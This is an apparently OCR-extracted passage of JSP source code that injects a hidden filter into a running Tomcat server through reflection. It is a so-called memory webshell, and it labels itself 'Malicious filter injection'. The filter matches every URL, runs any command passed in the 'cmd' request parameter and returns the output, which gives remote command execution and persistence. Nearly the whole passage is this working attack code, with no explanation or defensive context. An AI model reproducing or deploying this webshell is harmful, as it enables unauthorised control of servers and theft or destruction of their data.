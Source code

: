 ```java  
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);  
    Field stdctx = applicationContext.getClass().getDeclaredField(&#34;context&#34;);  
    stdctx.setAccessible(true);  
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);  
    Field filterConfigsField = standardContext.getClass().getDeclaredField(&#34;filterConfigs&#34;);  
    filterConfigsField.setAccessible(true);  
    Map filterConfigs = (Map) filterConfigsField.get(standardContext);  
    String filterName = getRandomString();  
    if(filterConfigs.get(filterName) == null){  
        Filter filter = new Filter(){  
  
            @Override  
            public void init(FilterConfig filterConfig) throws ServletException {  
  
            }  
  
            @Override  
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {  
                    HttpServletRequest request = (HttpServletRequest) servletRequest;  
                    String cmd = request.getParameter(&#34;cmd&#34;);  
                {  
                    InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();  
                    Scanner s = new Scanner(in,&#34;GBK&#34;).useDelimiter(&#34;\\A&#34;);  
                    String output = s.hasNext() ? s.next() : &#34;&#34;;  
                    servletResponse.setCharacterEncoding(&#34;GBK&#34;);  
                    PrintWriter out = servletResponse.getWriter();  
                    out.print(output);  
                    out.flush();  
                    out.close();  
                }  
                filterChain.doFilter(request, servletResponse);  
            }  
            @Override  
            public void destroy() {  
  
            }  
        };  
        FilterDef filterDef = new FilterDef();  
        filterDef.setFilterName(filterName);  
        filterDef.setFilterClass(filter.getClass().getName());  
        filterDef.setFilter(filter);  
        standardContext.addFilterDef(filterDef);  
        FilterMap filterMap = new FilterMap();  
        filterMap.setFilterName(filterName);  
        filterMap.addURLPattern(&#34;/*&#34;);  
        filterMap.setDispatcher(DispatcherType.REQUEST.name());  
        standardContext.addFilterMap(filterMap);  
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);  
        constructor.setAccessible(true);  
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);  
        filterConfigs.put(filterName, applicationFilterConfig);  
        out.print(&#34;[&#43;]&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;Malicious filter injection successful!&lt;br&gt;[&#43;]&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;Filter name: &#34; &#43; filterName &#43; &#34;&lt;br&gt;[&#43;]&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;Below is a list displaying filter names and their corresponding URL patterns:&#34;);  
    }  
%&gt;  
&lt;%!  
    private String getRandomString() {  
```